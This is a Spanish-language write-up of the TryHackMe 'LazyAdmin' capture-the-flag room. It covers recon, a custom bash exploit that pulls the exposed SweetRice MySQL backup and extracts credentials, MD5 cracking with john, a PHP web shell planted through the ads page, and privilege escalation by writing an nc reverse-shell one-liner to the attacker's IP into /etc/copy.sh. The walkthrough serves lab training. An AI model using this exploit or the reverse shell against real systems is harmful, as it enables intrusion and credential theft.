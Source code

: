 ```yaml
---
title : Lazy Admin
published : True
---
```

<p></p>
---
<p>Name : LazyAdmin</p>
<p>Url : <a href="https://tryhackme.com/room/lazyadmin"> LazyAdmin</a></p>
<p></p>
---
<h2><font color="white"><center># lazyAdmin</center></font></h2>
* <p>Empezamos con el reconocimiento de la maquina</p>
> ping -c 1 IP
<img src="/imgs/lazyAdmin/lazyAdmin0.jpg"/>
<br>
<br>
`Vemos que es una maquina linux por el ttl que es de 63, por proximidad hacia 64 podemos decir que la maquina es linux.`
* <p>Empezamos con el reconocimiento de puertos.</p>
> nmap --min-rate 5000 -sV -sS -Pn --open 10.10.56.176 -o ports
<img src="/imgs/lazyAdmin/lazyAdmin1.jpg"/>
<br>
<br>
`Podemos observar que tiene el puerto ssh y http abierto.`
* <p>Ahora enumeraremos los directorios activos de la pagina web</p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.56.176/FUZZ
<img src="/imgs/lazyAdmin/lazyAdmin2.jpg"/>
<br>
<br>
`Vemos que hay un direcotorio llamado content.`
* <p>Miremos que trae ese directorio.</p>
<img src="/imgs/lazyAdmin/lazyAdmin3.jpg"/>
<br><br>
`Vemos que en su sistema usa SweetRice el cual miraremos si tiene vulnerabilidades.`
* <p>Miremos si tiene vulnerabilidades el sistema que tiene en uso.</p>
> searchsploit sweetrice
<img src="/imgs/lazyAdmin/lazyAdmin4.jpg"/>
* <p>Mirando bien tenemos un exploit llamado Backup Disclosure que recopila informacion, de una base de datos mySql.</p>
<img src="/imgs/lazyAdmin/lazyAdmin5.jpg"/>
<br><br>
`Lo que podemos observer es que hay una base de datos filtrada en una url en este caso http://localhost/inc/mysql_backup`
* Veamos si existe el archivo filtrado.\
<br>
<img src="/imgs/lazyAdmin/lazyAdmin6.jpg"/>
<br><br>
`Ahora si vemos el archivo descargado podemos ver que hay un usario llamado "manager" y la cotraseña encrytada en MD5`
<p>Por cierto pense en la gente y desarrolle este <font color="red">exploit</font> el cual te automatiza todo.</p>

```bash
#!/bin/bash

ctrl_c(){
	echo -e "[\e[31;1m!\e[0m] Saliendo\n"
	exit 2
}
trap ctrl_c INT

function init(){
	echo -e "\e[31;1m[!] Cheking if exist url : $1\e[0m"

	if test """$( curl -s -X GET "http://$1/content/inc/mysql_backup/" -i | head -n 1 | cut -f2 -d' ' )""" -eq 200;then
		echo -e "\e[37;1m [+] Succes url database...\e[0m"
		echo -e "\e[37;1m [!] Cheking database exist into url\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
		echo -e "\e[37;1m [+] Name succes... \e[0m"
		echo -e "\e[37;1m [!] Extracting file db\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/$(cat .nameFile.tmp)" > database.sql
		echo -e "\e[37;1m [+] Ok data base extract in file -->> database.sql\e[0m"
		echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
		echo -e "\n\e[37;1m[ Credentials ]"
		echo -e "\e[37;1m------------------------"
		cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*" > .credentials.tmp
		echo -e "Username : $(cat .credentials.tmp | head -n 1)"
		echo -e """password : $(cat .credentials.tmp | head -n 2 | awk "NR==2")"""
		echo -e "-----------------------------"
		echo -e "\n[ all information ]"
		echo -e "--------------------------"
		cat .credentials.tmp
		echo -e "------------------------\n"
		echo -e "if there a error check file database.sql for verify."
		echo '' 
		rm -rf .nameFile.tmp
		exit 0
		
		
	else
		if test """$(curl -s -X GET "http://$1/inc/mysql_backup/" -e | head -n 1 | cut -f2 -d' ')""" -eq 200; then
			echo -e "\e[37;1m Succes url database \e[0m"
			echo -e "\e[37;1m Cheking database into url\e[0m"
			curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
			echo -e "\e[37;1m [+] Name succes... \e[0m"
  	 	        echo -e "\e[37;1m [!] Extracting file db\e[0m"
			curl -s -X GET "http://$1/inc/mysql_backup/$(cat .nameFile.tmp)" > database2.sql
			echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
			echo -e "[ Credentials ]"
			echo -e "\e[37;1m------------------------"
	               	cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*"
        	        echo -e "------------------------"
	                echo -e "if there a error check file database.sql for verify."
			rm -rf .nameFile.tmp
			exit 0
		else
			echo -e "\e[37;1m Error exploit\e[0m"
		fi
	fi
	
	
}

if test -z $1;then
	echo -e "\e[31;1m Not url declare\e[0m"
	exit 5
fi
init $1


```
* <p>Que por cierto si lo ejecutamos...</p>
<img src="/imgs/lazyAdmin/lazyAdmin7.jpg"/>
<br><br>
<p>Vemos el usuario y la contraseña....jejej.</p>
* <p>Ahora desencryptemos el hash anteriormente.</p>
> john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
<img src="/imgs/lazyAdmin/lazyAdmin8.jpg"/>
<br><br>
<p>contraseña mas debil jejeje.</p>
<p>Ahora ya podemo ingresar al login de la pagina web.</p>
<img src="/imgs/lazyAdmin/lazyAdmin9.jpg"/>
<p>Ahora nos vamos al apartado de anuncios.</p>
<img src="/imgs/lazyAdmin/lazyAdmin10.jpg"/>
<p>Ahora solo colocamos un codigo php que me de una web shell. </p>
<img src="/imgs/lazyAdmin/lazyAdmin11.jpg"/>
* <p>Ahora vamos a la url, donde se cargo el archivo php en este caso es en  <font color="yellow">http://localhost/content/inc/ads/( nombre de archivo).php</font></p>
<img src="/imgs/lazyAdmin/lazyAdmin12.jpg"/>
* <p>Nos ponemos en escucha en nuestra terminal y recargamos la pagina web anterior, de esta forma ganaremos una web shell</p>
<img src="/imgs/lazyAdmin/lazyAdmin13.jpg"/>
* <p>Enumeramos el sistema para ver como podemos escalar privilegios.</p>
<img src="/imgs/lazyAdmin/lazyAdmin14.jpg"/>
<br><br>
`En la imagen podemos ver que tenemos permisos para ejecutar perl, un archivo llamado /home/itguy/backuo.pl que a su vez ejecuta otro archivo llamado /etc/copy.sh el cual vemos que tenemos permisos de escritura`
* Como el archivo /etc/copy.sh, en su contexto vemos que el archivo tiene una estructura para lanzar una seudo consola por una ip y un puerto, lo que hare sera remplzar la ip y el puerto y ejecutar el archivo.
> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TuIp 5555 >/tmp/f"  > /etc/copy.sh
<img src="/imgs/lazyAdmin/lazyAdmin15.jpg"/>
<p>OK maquina vulnerada.</p>


